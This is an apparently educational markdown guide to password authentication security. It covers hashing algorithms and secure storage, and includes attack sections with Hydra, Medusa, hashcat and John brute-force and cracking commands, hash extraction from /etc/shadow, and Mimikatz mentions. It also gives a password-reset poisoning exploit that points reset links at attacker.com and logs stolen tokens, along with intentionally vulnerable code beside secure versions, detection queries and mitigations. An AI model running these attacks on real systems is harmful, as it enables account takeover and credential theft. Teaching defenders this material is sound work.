


# Password Authentication

> **Password authentication is the process of verifying identity by checking a secret string — but how that secret is stored and checked determines whether it's secure or catastrophically broken.**

---

## 🧠 What Is It? (Beginner Explanation)

Think of a password like a secret knock at a clubhouse. You knock the pattern, the person inside recognizes it and lets you in. But what if someone is listening and records your knock? They can replay it.

Now imagine instead of storing the knock pattern, the clubhouse stores a *fingerprint of the knock* — something that can verify it was right, but can't be reversed back into the actual knock. That's what password hashing is.

But some "fingerprints" (MD5, SHA1) are so fast to compute that attackers can try billions of guesses per second. Modern password hashing (bcrypt, Argon2) is *deliberately slow*, making brute force impractically expensive.

---

## 🏗️ How It Works (Technical Deep Dive)

### The Password Verification Flow

1. User registers: `POST /register {username: "alice", password: "hunter2"}`
2. Server generates a random **salt** (e.g., 16 random bytes).
3. Server computes: `hash = bcrypt("hunter2" + salt, cost=12)`
4. Server stores: `{username: "alice", password_hash: "$2b$12$...", salt: "..."}`
   *(With bcrypt, the salt is embedded in the hash string itself)*

**On login:**
1. User submits: `POST /login {username: "alice", password: "hunter2"}`
2. Server retrieves stored hash for "alice".
3. Server runs: `bcrypt.verify("hunter2", stored_hash)` → True/False
4. Match → create session. No match → reject.

---

## 📊 Diagram

### Password Reset Flow with Attack Points



### Password Cracking Decision Tree



---

## ⚙️ Technical Details

### Hash Algorithm Comparison Table

| Algorithm | Speed (GPU) | Salted | Password-Specific | Status | Format Example |
|---|---|---|---|---|---|
| **MD5** | ~100 GH/s | Optional | ❌ No | 🔴 Broken | `5f4dcc3b5aa765d61d8327deb882cf99` |
| **SHA-1** | ~50 GH/s | Optional | ❌ No | 🔴 Broken | `5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8` |
| **SHA-256** | ~10 GH/s | Optional | ❌ No | 🟡 OK for integrity | `5e884898da28047151d0e56f8dc629277...` |
| **SHA-512** | ~5 GH/s | Optional | ❌ No | 🟡 OK for integrity | `b109f3bbbc244eb82441...` |
| **NTLM** | ~300 GH/s | ❌ No | ❌ No | 🔴 Broken | `8846f7eaee8fb117ad06bdd830b7586c` |
| **bcrypt** | ~20 KH/s | ✅ Built-in | ✅ Yes | 🟢 Good | `$2b$12$...` |
| **scrypt** | ~100 H/s | ✅ Required | ✅ Yes | 🟢 Good | `$s0$...` |
| **Argon2id** | ~10 H/s | ✅ Required | ✅ Yes | 🟢 Best | `$argon2id$v=19$m=65536,t=3,p=4$...` |
| **PBKDF2** | ~1 MH/s | ✅ Required | ✅ Yes | 🟢 Acceptable | Varies by implementation |

### Understanding bcrypt

bcrypt format: `$2b$12$SaltSaltSaltSaltSaltSaHashHashHashHashHashHashHashHash`

- `$2b$` — bcrypt version identifier
- `12` — cost factor (work factor): 2^12 = 4096 iterations
- Next 22 chars — salt (128-bit, base64-encoded)
- Last 31 chars — hash

**Work factor impact:**
| Cost Factor | Iterations | Time per Hash (approx) |
|---|---|---|
| 10 | 1,024 | ~0.1s |
| 12 | 4,096 | ~0.3s |
| 14 | 16,384 | ~1s |
| 16 | 65,536 | ~5s |

Higher cost = more work for attacker. Recommendation: cost ≥ 12. Increase as hardware gets faster.

### Understanding Argon2

Argon2 won the Password Hashing Competition (2015). Three variants:
- **Argon2d**: Resistant to GPU attacks (data-dependent memory access). Not for password hashing (side-channel risk).
- **Argon2i**: Resistant to side-channel attacks (data-independent). Better for interactive logins.
- **Argon2id**: Hybrid — first pass Argon2i, then Argon2d. **Recommended for passwords.**

Parameters:
- **m** (memory): Memory usage in KiB. Minimum: 64 MiB (65536 KiB). More = harder.
- **t** (time): Number of iterations. Minimum: 3.
- **p** (parallelism): Parallel threads. Set to number of available CPU cores.

Recommended: `m=65536, t=3, p=4`

### What Is a Rainbow Table?

A rainbow table is a precomputed lookup table mapping hashes back to passwords:

```
md5("password")  → "5f4dcc3b..." → "password"
md5("123456")    → "e10adc39..." → "123456"
md5("letmein")   → "0d107d09..." → "letmein"
```

**Defeated by salting**: If each hash includes a unique random salt, the attacker would need a separate rainbow table for each user — computationally infeasible.

### What Is Credential Stuffing?

Credential stuffing uses usernames/passwords from *previously breached databases* to try to log in to other services. It exploits password reuse.

Key insight: ~60-65% of users reuse passwords across services.

Tools for credential stuffing: Sentry MBA, OpenBullet, Snipr.

Defense: Detect automated login patterns, compare against breach databases (HaveIBeenPwned API), implement MFA.

### What Is Password Spraying?

Instead of trying many passwords against one user (which triggers lockout), spraying tries **one or few passwords against many users**.

Example: Try "Summer2024!" against 10,000 usernames. Even a 0.1% success rate = 10 compromised accounts.

Effective because:
- Avoids per-account lockout thresholds
- Common "seasonal" passwords are used by surprising numbers of users

---

## 🔴 Attack Surface & Exploitation

### Attack 1: Brute Force via Burp Intruder

**Steps:**
1. Open Burp Suite → navigate to login page.
2. Enter a test username and wrong password → capture request in Proxy.
3. Right-click request → Send to Intruder.
4. In Intruder → Positions tab → clear all auto-markers.
5. Highlight the password value → click Add §.
6. Go to Payloads tab → Payload type: Simple list.
7. Load wordlist (e.g., rockyou.txt or top-passwords.txt).
8. In Options: set Grep - Match to "Invalid" (or whatever failure message is).
9. Start Attack → sort by "Invalid" column → non-matching response = success.

### Attack 2: Hydra Brute Force

```bash
# HTTP POST form login
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  192.168.1.100 \
  http-post-form "/login:username=^USER^&password=^PASS^:F=Invalid credentials" \
  -t 20 -V

# With username list
hydra -L users.txt -P passwords.txt \
  192.168.1.100 \
  http-post-form "/login:user=^USER^&pass=^PASS^:F=Login failed" \
  -t 10

# SSH brute force
hydra -l root -P rockyou.txt ssh://192.168.1.100

# FTP brute force
hydra -L users.txt -P passwords.txt ftp://192.168.1.100

# HTTP Basic Auth
hydra -l admin -P rockyou.txt http-get://192.168.1.100/admin
```

**Parameter Explanation:**
- `-l` : single login username
- `-L` : file of usernames
- `-p` : single password
- `-P` : file of passwords
- `-t` : number of threads
- `-V` : verbose (show each attempt)
- `F=` : failure string (marks failed attempts)
- `S=` : success string (marks successful attempts)

### Attack 3: Password Spraying

```bash
# Using spray.sh
spray.sh -s https://target.com/login -u users.txt -p "Password123" -o results.txt

# Using Burp Intruder (Pitchfork mode)
# Load username list as Payload 1
# Set single password as Payload 2
# Use Pitchfork to pair each username with the same password

# Custom Python spray script
python3 spray.py --url https://target.com/login \
                 --users users.txt \
                 --passwords "Summer2024!,Password1,Welcome123" \
                 --delay 2 \
                 --timeout 30
```

### Attack 4: Hash Cracking with Hashcat

```bash
# Identify hash type first
hashid '$2b$12$SaltSaltSaltSaltSaltSaHashHashHashHashHashHashHashHash'
hash-identifier 5f4dcc3b5aa765d61d8327deb882cf99

# MD5 cracking
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt

# MD5 with rules (common mutations)
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# SHA-256
hashcat -m 1400 hash.txt rockyou.txt

# bcrypt (slow - use targeted wordlist)
hashcat -m 3200 bcrypt_hashes.txt top_passwords.txt -r best64.rule

# NTLM (Windows passwords)
hashcat -m 1000 ntlm_hashes.txt rockyou.txt

# WPA2 (for reference)
hashcat -m 22000 handshake.hc22000 rockyou.txt

# SHA-512crypt (Linux /etc/shadow)
hashcat -m 1800 shadow_hashes.txt rockyou.txt

# Mask attack (brute force pattern): 8-char, upper+lower+digit
hashcat -m 0 hash.txt -a 3 ?u?l?l?l?d?d?d?d

# Combination attack: combine two wordlists
hashcat -m 0 hash.txt -a 1 wordlist1.txt wordlist2.txt

# Show cracked results
hashcat -m 0 hash.txt --show

# Common hashcat mode numbers
# -m 0    = MD5
# -m 100  = SHA1
# -m 1400 = SHA-256
# -m 1700 = SHA-512
# -m 1000 = NTLM
# -m 3200 = bcrypt
# -m 7400 = sha256crypt (Linux)
# -m 1800 = sha512crypt (Linux)
# -m 16500 = JWT HS256
```

### Attack 5: John the Ripper

```bash
# Auto-detect format and crack
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

# Specify format
john hash.txt --format=bcrypt --wordlist=rockyou.txt

# Linux shadow file
unshadow /etc/passwd /etc/shadow > combined.txt
john combined.txt --wordlist=rockyou.txt

# Show cracked passwords
john --show hash.txt

# Incremental (brute force) mode
john hash.txt --incremental=Digits

# Rules
john hash.txt --wordlist=rockyou.txt --rules=best64
```

### Attack 6: Password Reset Vulnerabilities

#### 6a. Host Header Injection in Reset Email

Many applications build reset URLs like this (vulnerable code):
```python
# VULNERABLE - uses Host header from request
reset_url = f"https://{request.headers['Host']}/reset?token={token}"
send_email(user.email, reset_url)
```

**Exploit:**
1. Intercept `POST /forgot-password` request in Burp.
2. Modify the `Host` header: `Host: attacker.com`
3. Submit the request.
4. If vulnerable, the victim receives an email with:
   `https://attacker.com/reset?token=SECRET_TOKEN`
5. When the victim clicks the link, the token is sent to attacker's server.

**HTTP Request:**
```http
POST /forgot-password HTTP/1.1
Host: attacker.com
Content-Type: application/x-www-form-urlencoded

email=victim@target.com
```

#### 6b. Predictable Reset Tokens

```python
# VULNERABLE - timestamp-based token
import time
import hashlib

def generate_reset_token(user_id):
    timestamp = int(time.time())
    token = hashlib.md5(f"{user_id}{timestamp}".encode()).hexdigest()
    return token

# An attacker who knows:
# 1. The user's ID (often sequential: 1, 2, 3...)
# 2. Approximate time of token generation
# Can enumerate: for t in range(current_time - 60, current_time): try md5(user_id + t)
```

**Testing for predictable tokens:**
1. Request 5-10 consecutive password reset tokens.
2. Analyze for patterns: sequential? timestamp-based? short length?
3. If timestamp-based: try generating tokens for nearby timestamps.
4. Use Burp Sequencer to measure token entropy (see Session Management file).

#### 6c. Token Never Expires

```bash
# Test: Request a reset token, wait 24+ hours, use the old token
# If it still works → no expiry vulnerability
curl -X POST https://target.com/reset \
     -d "token=OLD_TOKEN_FROM_YESTERDAY&password=newpassword123"
```

#### 6d. Password Reset Poisoning (Full Exploit)

```http
# Step 1: Request password reset with injected Host header
POST /forgot-password HTTP/1.1
Host: legitimate-site.com
X-Forwarded-Host: attacker.com
Content-Type: application/x-www-form-urlencoded

email=victim@legitimate-site.com
```

The email sent to victim will contain: `https://attacker.com/reset?token=abc123`

When victim clicks → GET request to attacker.com → token captured in access logs.

```bash
# Attacker server (simple Python HTTP server to capture tokens)
python3 -m http.server 80 2>&1 | tee captured_tokens.txt
# Monitor for: /reset?token=CAPTURED_TOKEN
```

---

## 💥 Payloads & Examples

### Secure vs Insecure Password Storage (Python)

```python
# ============================================================
# INSECURE: Storing plaintext password (never do this)
# ============================================================
import sqlite3

def register_user_INSECURE(username, password):
    conn = sqlite3.connect('users.db')
    # CRITICAL VULNERABILITY: password stored as plaintext
    conn.execute("INSERT INTO users (username, password) VALUES (?, ?)",
                 (username, password))
    conn.commit()

def verify_user_INSECURE(username, password):
    conn = sqlite3.connect('users.db')
    row = conn.execute("SELECT password FROM users WHERE username=?",
                       (username,)).fetchone()
    if row and row[0] == password:  # Direct comparison of plaintext
        return True
    return False

# ============================================================
# INSECURE: MD5 hashing (no salt, fast, easily cracked)
# ============================================================
import hashlib

def hash_md5_INSECURE(password):
    return hashlib.md5(password.encode()).hexdigest()

# ============================================================
# SECURE: bcrypt with automatic salting
# ============================================================
import bcrypt

def register_user_SECURE_bcrypt(username, password):
    # bcrypt automatically generates a unique salt per hash
    # cost factor 12 = 2^12 = 4096 iterations
    password_hash = bcrypt.hashpw(password.encode('utf-8'), bcrypt.gensalt(rounds=12))
    
    conn = sqlite3.connect('users.db')
    conn.execute("INSERT INTO users (username, password_hash) VALUES (?, ?)",
                 (username, password_hash.decode('utf-8')))
    conn.commit()
    return True

def verify_user_SECURE_bcrypt(username, password):
    conn = sqlite3.connect('users.db')
    row = conn.execute("SELECT password_hash FROM users WHERE username=?",
                       (username,)).fetchone()
    if not row:
        # IMPORTANT: Run bcrypt anyway to prevent timing-based user enumeration
        bcrypt.checkpw(b"dummy", b"$2b$12$aaaaaaaaaaaaaaaaaaaaaa.aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
        return False
    
    stored_hash = row[0].encode('utf-8')
    return bcrypt.checkpw(password.encode('utf-8'), stored_hash)

# ============================================================
# SECURE: Argon2id (recommended for new applications)
# ============================================================
from argon2 import PasswordHasher
from argon2.exceptions import VerifyMismatchError

ph = PasswordHasher(
    time_cost=3,         # Number of iterations
    memory_cost=65536,   # 64 MiB memory usage
    parallelism=4,       # 4 parallel threads
    hash_len=32,         # 32-byte hash output
    salt_len=16          # 16-byte salt
)

def register_user_SECURE_argon2(username, password):
    # Argon2 automatically generates salt and encodes parameters in hash
    password_hash = ph.hash(password)
    # Stores: $argon2id$v=19$m=65536,t=3,p=4$<salt>$<hash>
    
    conn = sqlite3.connect('users.db')
    conn.execute("INSERT INTO users (username, password_hash) VALUES (?, ?)",
                 (username, password_hash))
    conn.commit()

def verify_user_SECURE_argon2(username, password):
    conn = sqlite3.connect('users.db')
    row = conn.execute("SELECT password_hash FROM users WHERE username=?",
                       (username,)).fetchone()
    if not row:
        return False
    try:
        ph.verify(row[0], password)
        # Rehash if parameters have changed (e.g., increased time_cost)
        if ph.check_needs_rehash(row[0]):
            new_hash = ph.hash(password)
            conn.execute("UPDATE users SET password_hash=? WHERE username=?",
                        (new_hash, username))
            conn.commit()
        return True
    except VerifyMismatchError:
        return False

# ============================================================
# BONUS: Adding a pepper (application-level secret)
# ============================================================
import hmac
import os

PEPPER = os.environ.get('PASSWORD_PEPPER', '')  # Load from environment, never hardcode

def hash_with_pepper(password):
    # Pepper is concatenated before hashing
    # Even if DB is leaked, attacker also needs the pepper (separate secret)
    peppered = hmac.new(PEPPER.encode(), password.encode(), 'sha256').hexdigest()
    return bcrypt.hashpw(peppered.encode(), bcrypt.gensalt(rounds=12))
```

### Secure Password Reset Token Generation

```python
import secrets
import hashlib
import time
from datetime import datetime, timedelta

# INSECURE: MD5 of timestamp
def generate_token_INSECURE(user_id):
    return hashlib.md5(f"{user_id}{int(time.time())}".encode()).hexdigest()

# SECURE: Cryptographically random token
def generate_token_SECURE():
    # 32 bytes = 256 bits of entropy = effectively unguessable
    return secrets.token_urlsafe(32)

class PasswordResetManager:
    def __init__(self, db):
        self.db = db
        self.token_expiry_minutes = 15  # Tokens expire in 15 minutes
    
    def create_reset_token(self, user_id):
        token = secrets.token_urlsafe(32)  # URL-safe base64 random token
        # Store token hash (not plaintext) to prevent DB-level theft
        token_hash = hashlib.sha256(token.encode()).hexdigest()
        expires_at = datetime.utcnow() + timedelta(minutes=self.token_expiry_minutes)
        
        self.db.execute(
            "INSERT INTO reset_tokens (user_id, token_hash, expires_at, used) VALUES (?,?,?,0)",
            (user_id, token_hash, expires_at)
        )
        return token  # Return plaintext token once (for email), store only hash

    def validate_reset_token(self, token, new_password):
        token_hash = hashlib.sha256(token.encode()).hexdigest()
        row = self.db.execute(
            "SELECT user_id, expires_at, used FROM reset_tokens WHERE token_hash=?",
            (token_hash,)
        ).fetchone()
        
        if not row:
            return False, "Invalid token"
        if row['used']:
            return False, "Token already used"
        if datetime.utcnow() > row['expires_at']:
            return False, "Token expired"
        
        # Invalidate token immediately (single-use)
        self.db.execute("UPDATE reset_tokens SET used=1 WHERE token_hash=?", (token_hash,))
        # Update password
        new_hash = ph.hash(new_password)
        self.db.execute("UPDATE users SET password_hash=? WHERE id=?",
                       (new_hash, row['user_id']))
        return True, "Password reset successful"
```

---

## 🛠️ Tools & Commands

```bash
# ============================================================
# HASHCAT QUICK REFERENCE
# ============================================================

# Attack modes (-a):
# 0 = Dictionary attack
# 1 = Combination attack
# 3 = Mask/Brute-force attack
# 6 = Hybrid wordlist + mask
# 7 = Hybrid mask + wordlist

# Built-in charsets for masks:
# ?l = lowercase letters (a-z)
# ?u = uppercase letters (A-Z)
# ?d = digits (0-9)
# ?s = special characters
# ?a = all printable ASCII

# Benchmark to check GPU speed
hashcat -b -m 3200  # bcrypt benchmark

# Show hashcat info
hashcat --help | grep -A2 "Hash modes"

# ============================================================
# JOHN THE RIPPER QUICK REFERENCE
# ============================================================

# List supported formats
john --list=formats

# Single crack mode (uses username/gecos as password candidates)
john hash.txt --single

# External mode (for complex patterns)
john hash.txt --external:Double

# ============================================================
# COMMON WORDLISTS LOCATIONS
# ============================================================
# /usr/share/wordlists/rockyou.txt          (14 million passwords)
# /usr/share/seclists/Passwords/            (SecLists collection)
# /usr/share/seclists/Passwords/Common-Credentials/
# /usr/share/hashcat/rules/                 (Hashcat rules)

# ============================================================
# MEDUSA (Alternative to Hydra)
# ============================================================
medusa -h target.com -u admin -P rockyou.txt -M http -m DIR:/login -m FORM:user:pass -m DENY:Invalid

# ============================================================
# EXTRACT HASHES FOR CRACKING
# ============================================================
# MySQL
mysql -u root -p -e "SELECT user, authentication_string FROM mysql.user;"

# Linux shadow file (requires root)
cat /etc/shadow | cut -d: -f1,2

# NTLM hashes (Windows, post-exploitation)
# Using Mimikatz:
# sekurlsa::logonpasswords
# lsadump::sam

# ============================================================
# CUPP - Custom Wordlist Generator
# ============================================================
pip3 install cupp
cupp -i  # Interactive mode - generate wordlist from target info
cupp -w target_wordlist.txt -l  # Add common patterns (leet speak, numbers)
```

---

## 🔍 Detection

### Detecting Password Attacks in Logs

**Brute force signature:**
```
192.168.1.50 - - [15/Jan/2024:10:23:01] "POST /login HTTP/1.1" 401 245
192.168.1.50 - - [15/Jan/2024:10:23:02] "POST /login HTTP/1.1" 401 245
192.168.1.50 - - [15/Jan/2024:10:23:03] "POST /login HTTP/1.1" 401 245
# 200+ requests/minute from same IP = brute force
```

**Password spraying signature:**
```
192.168.1.50 - - POST /login user=alice 401
192.168.1.51 - - POST /login user=bob 401
192.168.1.52 - - POST /login user=carol 401
# Different IPs, different users, same time window = spraying
```

**SIEM detection queries (Splunk-style):**
```sql
-- Brute force: >10 failures from same IP in 5 minutes
index=web_logs action=login status=failure
| bucket span=5m _time
| stats count by src_ip, _time
| where count > 10

-- Credential stuffing: many accounts, many IPs, moderate failure rate
index=web_logs action=login
| bucket span=1h _time
| stats dc(username) as unique_users, dc(src_ip) as unique_ips, count by _time
| where unique_users > 100 AND unique_ips > 50
```

---

## 🛡️ Mitigation

### Secure Password Policy

| Requirement | Recommendation | Rationale |
|---|---|---|
| **Minimum length** | 12+ characters | Length > complexity for entropy |
| **Maximum length** | 128+ characters | Support passphrases; bcrypt truncates at 72 bytes |
| **Complexity** | Check against breach lists instead of complexity rules | Forced complexity → predictable patterns |
| **Breached passwords** | Block passwords from HaveIBeenPwned API | ~550M known breached passwords |
| **Password history** | Store last 12 hashes | Prevent reuse of recent passwords |
| **Password age** | Optional (NIST no longer recommends forced rotation) | Forced rotation → predictable patterns |

### Account Lockout Configuration

```
After 5-10 failed attempts:
Option 1: Hard lockout — require admin unlock (secure but annoying)
Option 2: Soft lockout — CAPTCHA required (balance of security/UX)
Option 3: Exponential backoff — delay doubles each attempt
Option 4: IP-based rate limiting (bypass with distributed attack)

Recommendation: Combine soft lockout + IP rate limiting + alerting
```

### Password Reset Security Checklist

- [ ] Tokens are cryptographically random (minimum 128 bits of entropy)
- [ ] Tokens expire within 15-30 minutes
- [ ] Tokens are single-use (invalidated after first use)
- [ ] Tokens are stored as hashes in the database (not plaintext)
- [ ] Reset URLs use HTTPS only
- [ ] No sensitive token in URL query string (use POST or short-lived session)
- [ ] Reset emails are sent to confirmed email only
- [ ] Rate limit reset requests per IP and per account
- [ ] Server uses absolute URL (not from Host header) in email
- [ ] Consistent responses regardless of whether email exists

---

## 📚 References

- [OWASP Password Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Password_Storage_Cheat_Sheet.html)
- [OWASP Forgot Password Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Forgot_Password_Cheat_Sheet.html)
- [NIST SP 800-63B — Password Guidance](https://pages.nist.gov/800-63-3/sp800-63b.html)
- [PortSwigger: Password-based Vulnerabilities](https://portswigger.net/web-security/authentication/password-based)
- [HaveIBeenPwned API](https://haveibeenpwned.com/API/v3)
- [Hashcat Wiki](https://hashcat.net/wiki/)
- [SecLists — Password Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
- [Argon2 RFC](https://www.rfc-editor.org/rfc/rfc9106)
- [bcrypt specification](https://www.usenix.org/conference/1999-usenix-annual-technical-conference/future-adaptable-password-scheme)
- [Troy Hunt: Password Reset Poisoning](https://www.troyhunt.com/the-anatomy-of-a-bad-password/)
